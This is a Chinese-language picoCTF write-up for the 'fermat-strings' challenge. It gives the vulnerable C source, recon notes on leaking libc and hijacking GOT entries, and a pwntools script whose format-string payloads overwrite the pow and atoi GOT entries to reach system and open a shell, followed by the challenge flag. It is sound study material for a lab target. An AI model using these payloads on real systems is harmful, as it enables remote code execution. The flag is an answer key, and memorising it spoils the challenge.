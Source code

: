 # PicoCTF - fermat-strings
## Background
[C 庫函數 - strcspn()](https://www.runoob.com/cprogramming/c-function-strcspn.html)
> 該函數返回 str1 開頭連續都不含字符串 str2 中字符的字符數。

[atoi() - C語言庫函數](http://tw.gitbook.net/c_standard_library/c_function_atoi.html)
> 這個函數返回一個int值轉換的整數。如果冇有有效的轉換可以執行，它返回零。

[C 库函数 - snprintf()](https://www.runoob.com/cprogramming/c-function-snprintf.html)
> snprintf() 函數的返回值是輸出到 str 緩沖區中的字符數，不包括字符串結尾的空字符 \0。如果 snprintf() 輸出的字符數超過了 size 參數指定的緩沖區大小，則輸出的結果會被截斷，只有 size - 1 個字符被寫入緩沖區，最後一個字符為字符串結尾的空字符 \0。
>
>需要注意的是，snprintf() 函數返回的字符數並不包括字符串結尾的空字符 \0，因此如果需要將輸出結果作為一個字符串使用，則需要在緩沖區的末尾添加一個空字符 \0。


[Format Specifiers in C](https://www.geeksforgeeks.org/format-specifiers-in-c/)
## Source code
:::spoiler
```cpp!
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <math.h>

#define SIZE 0x100

int main(void)
{
  char A[SIZE];
  char B[SIZE];

  int a = 0;
  int b = 0;

  puts("Welcome to Fermat\\'s Last Theorem as a service");

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  printf("A: ");
  read(0, A, SIZE);
  printf("B: ");
  read(0, B, SIZE);

  A[strcspn(A, "\n")] = 0;
  B[strcspn(B, "\n")] = 0;

  a = atoi(A);
  b = atoi(B);

  if(a == 0 || b == 0) {
    puts("Error: could not parse numbers!");
    return 1;
  }

  char buffer[SIZE];
  snprintf(buffer, SIZE, "Calculating for A: %s and B: %s\n", A, B);
  printf(buffer);

  int answer = -1;
  for(int i = 0; i < 100; i++) {
    if(pow(a, 3) + pow(b, 3) == pow(i, 3)) {
      answer = i;
    }
  }

  if(answer != -1) printf("Found the answer: %d\n", answer);
}
```
:::
## Recon
這一題太難了，可以參考的資料太少了，大部分都有一些缺失，而且重點是server那邊的版本和local端不一樣就會造成got hijack失敗，所以最後沒有做出來，但是流程還是可以記錄一下
1. 先leak stack的資訊，例如`__libc_start_main`的address，然後到[^libc_database_search]查詢，光這一點耗費蠻多心力，雖然說只要查看stack上相對的位置，就可以leak出對應的address，但有可能是因為我local端libc version是2.35，所以找不到對應位置上libc address在database上的資料，但在server端卻找得到，這可能是不同版本的鍋，所以之後要找這種libc version的問題，最好是在2.31的地方
2. 得到libc的version後，就可以算offset，得出libc base address，然後就可以得出system在libc的確切位址，又由於這隻程式只會執行一次就結束，所以我們要讓他有loop的效果，作法就是got hijack，改掉pow的got位置為main function的address
註：為甚麼是改pow而不是atoi, snprintf之類的function的got?因為pow是比較後面被呼叫到的function，如果修改那些太早被呼叫到的function就馬上從main開始執行，這樣就沒辦法開shell了
3. 接著我們可以再從第二次的input中開shell，這就是最後做不出來的地方，除了之前沒有寫過相關的題目不知道怎麼開以外，其他WP[^fermat-strings][^picoMini-by-redpwn][^picoMini-by-redpwn-2021-Darin's-Challenges]也都會有其他的問題
## Exploit
```python!
from pwn import *
exe = ELF("chall")
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

context.binary = exe
context.terminal = "kitty"

offset___libc_start_main_ret = 0x026fc0
offset_system = 0x0000000000055410
# offset___libc_start_main_ret_local = 0xac0b3c2270
# offset_system_local = 0x050d60

r = remote("mars.picoctf.net", 31929)
# r = process('./chall')

'''#############
leak libc address
#############'''
payload1 = b'1 %2082c%12$hn  ' + p64(exe.got['pow'])
payload2 = b'2 %109$p'
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)
print(r.recvuntil(b" 2 0x"))
return_value = int(r.recv(12).strip(), 16)
libc_addr = return_value - 243 - offset___libc_start_main_ret
success(f"Return Value = {hex(return_value)}")
success(f"libc address = {hex(libc_addr)}")
success(f"libc system address = {hex(libc_addr + offset_system)}")
# success(f"libc system address = {hex(libc_addr + offset_system_local)}")
# success(f"libc address = {hex(libc_addr - offset___libc_start_main_ret_local)}")


'''#############
Get Shell
#############'''
# raw_input()
third = (libc.sym['system']>>16)&0xff
bottom = libc.sym['system'] & 0xffff
first = third - 21
second = bottom - third

payload1 = f'1 %{first}c%43$hhn%{second}c%44$hn'
payload2 = b'2'.ljust(8, b' ') + p64(exe.got['atoi']+2) + p64(exe.got['atoi'])
r.recvuntil(b'A: ')
r.sendline(payload1)
r.recvuntil(b'B: ')
r.sendline(payload2)

r.interactive()
```

Flag: `picoCTF{f3rm4t_pwn1ng_s1nc3_th3_17th_c3ntury}`
## Reference
[^fermat-strings]:[fermat-strings](https://github.com/Dvd848/CTFs/blob/master/2021_picoCTF_redpwn/fermat-strings.md)
[^picoMini-by-redpwn]:[picoMini by redpwn](https://heinen.dev/picoctf-2021-redpwn/#fermat-strings)
[^picoMini-by-redpwn-2021-Darin's-Challenges]:[picoMini by redpwn 2021 - Darin's Challenges](https://activities.tjhsst.edu/csc/writeups/picomini-redpwn-darin#fermat-strings-pwn)
[^libc_database_search]:[libc database search](https://libc.blukat.me/?q=__libc_start_main_ret%3A0x7fa8cf54d0b3&l=libc6_2.31-0ubuntu9.1_amd64)